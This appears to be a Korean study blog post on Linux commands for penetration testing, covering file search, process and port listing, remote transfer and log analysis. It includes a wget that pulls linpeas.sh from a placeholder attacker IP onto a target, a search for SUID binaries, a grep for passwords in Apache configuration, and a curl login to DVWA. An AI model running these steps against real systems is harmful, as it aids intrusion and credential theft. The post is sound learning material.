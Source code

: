 ```yaml
---
layout: post
title: "리눅스 명령어 공부"
date: 2025-09-02 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

침투 테스트 및 보안 분석 과정에서 리눅스 명령어는 기본적인 도구로 활용된다. 시스템 정보 수집, 서비스 확인, 스크립트 준비 등 다양한 작업이 터미널을 통해 이루어진다.

---

### 2. 파일 및 텍스트 처리

*   **`find`**: 특정 조건의 파일을 검색한다. 권한 상승의 단서가 되는 SUID 설정 파일이나 설정 오류가 의심되는 파일을 찾을 때 유용하다.
    *   **주요 옵션:**
        *   `-perm`: 특정 권한을 가진 파일을 검색한다. (`-u=s`, `-4000`은 SUID)
        *   `-name`: 특정 이름 패턴을 가진 파일을 검색한다.
        *   `-type`: 파일의 종류를 지정한다. (`f`: 파일, `d`: 디렉터리)
    ```bash
    # 루트 디렉터리부터 SUID 비트가 설정된 파일을 검색하고 권한 오류는 출력하지 않음
    find / -perm -u=s -type f 2>/dev/null
    ```
*   **`grep`**: 파일이나 파이프라인 출력에서 특정 문자열 패턴을 필터링한다. 로그 파일 분석이나 설정 파일에서 민감 정보를 찾을 때 사용된다.
    *   **주요 옵션:**
        *   `-r`: 지정된 디렉터리의 하위 폴더까지 재귀적으로 검색한다.
        *   `-i`: 대소문자를 구분하지 않고 검색한다.
        *   `-v`: 특정 패턴을 제외한 모든 라인을 출력한다.
    ```bash
    # 웹 서버 설정 파일 디렉터리부터 'password' 문자열을 하위 폴더까지 검색
    grep -r "password" /etc/apache2/
    ```

---

### 3. 프로세스 및 네트워크 확인

*   **`ps`**: 현재 시스템에서 동작하고 있는 프로세스의 목록을 보여준다. 이를 통해 시스템 권한으로 실행되는 비정상적인 프로세스를 확인할 수 있다.
    *   **주요 옵션 조합 `aux`:**
        *   `a`: 다른 사용자의 프로세스도 보여준다.
        *   `u`: 사용자 중심의 포맷으로 출력한다.
        *   `x`: 터미널에 연결되지 않은 프로세스(데몬)도 보여준다.
    ```bash
    # 시스템에서 실행 중인 모든 프로세스를 상세 정보와 함께 보여줌
    ps aux
    ```
*   **`netstat`**: 현재 시스템에서 열려 있는 포트와 네트워크 연결 상태를 보여준다. 최신 시스템에서는 `ss` 명령어가 더 빠른 성능을 보인다.
    *   **주요 옵션 조합 `tulpn`:**
        *   `t`: TCP 포트를 보여준다.
        *   `u`: UDP 포트를 보여준다.
        *   `l`: 연결 대기(Listen) 상태의 포트만 보여준다.
        *   `p`: 해당 포트를 사용하는 프로세스의 이름과 PID를 보여준다.
        *   `n`: 호스트 이름 대신 IP 주소로 보여준다.
    ```bash
    # 리스닝 중인 모든 TCP/UDP 포트와 해당 포트를 사용하는 프로세스 정보를 보여줌
    netstat -tulpn
    ```

---

### 4. 원격 데이터 전송

*   **`wget`**: 원격 서버의 파일을 다운로드하여 저장한다. 공격자 PC의 웹 서버에서 권한 상승 진단 스크립트(`linpeas.sh`)를 공격 대상 서버로 옮길 때 사용된다.
    *   **주요 옵션:**
        *   `-q`: 다운로드 과정을 출력하지 않는다 (Quiet).
        *   `-O <file>`: 다운로드한 내용을 지정된 파일 이름으로 저장한다. (`-O -`는 표준 출력으로 보냄)
    ```bash
    # 공격자 PC에서 실행 중인 웹 서버로부터 linpeas.sh를 다운로드
    wget http://[Attacker IP]:8000/linpeas.sh
    ```
*   **`curl`**: URL을 통해 데이터를 전송하고 그 결과를 터미널에 직접 출력한다. 파일 저장 없이 API 응답을 확인하거나 웹 페이지 소스를 분석할 때 유용하다.
    *   **주요 옵션:**
        *   `-X <METHOD>`: `GET`, `POST` HTTP 메서드를 지정한다.
        *   `-d <data>`: `POST` 요청 시 전송할 데이터를 지정한다.
    ```bash
    # DVWA 로그인 페이지에 POST 요청을 보내고 응답을 확인
    curl -X POST -d "username=admin&password=password&Login=Login" http://[Attacker IP]/login.php
    ```

### 5. 기본 로그 분석

시스템에 남겨진 로그 파일을 분석하여 공격 시도나 비정상적인 활동을 탐지할 수 있다. `grep`, `tail`과 같은 명령어는 대량의 로그에서 유의미한 정보를 필터링하는 데 사용된다.

#### ***주요 로그 파일 (Ubuntu 기준)***
*   `/var/log/auth.log`: 사용자 로그인, `sudo` 명령어 사용 인증 관련 기록.
*   `/var/log/apache2/access.log`: 웹 서버 접속 기록.

#### ***로그 분석 예시***
*   **SSH 로그인 실패 기록 확인:**
    `/var/log/auth.log` 파일에서 "Failed password" 문자열을 검색하여 무차별 대입 공격 시도를 탐지한다.
    ```bash
    grep "Failed password" /var/log/auth.log
    ```
*   **특정 IP의 웹 서버 접근 기록 확인:**
    `access.log`에서 특정 IP의 접근 기록을 필터링한다.
    ```bash
    grep "[Attacker IP]" /var/log/apache2/access.log
    ```

이러한 로그 분석은 [A09: 보안 로깅 및 모니터링 실패](https://hamap0.github.io/projects/owasp-top-10/2025/09/02/A09_Security-Logging-and-Monitoring-Failures.html) 프로젝트에서 로그의 중요성을 이해하는 기반이 된다.

<hr class="short-rule">